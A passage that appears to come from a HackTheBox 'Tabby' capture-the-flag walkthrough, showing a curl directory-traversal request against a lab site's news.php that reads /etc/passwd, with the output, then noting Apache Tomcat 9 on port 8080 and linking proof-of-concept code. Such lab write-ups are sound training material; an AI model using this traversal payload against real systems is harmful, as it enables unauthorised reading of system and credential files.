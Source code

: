 Go to this url in the browser.

![](images/3.png)

Try to sent directory traversal payload to read system file and it works.

```
┌──(Hades㉿10.10.14.5)-[0.4:23.2]~
└─$ curl 'http://megahosting.htb/news.php?file=../../../../../../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
<snip>
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

### Apache Tomcat 9

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/tabby)

At port 8080, it is tomcat 9 in a default page.

![](images/7.png)
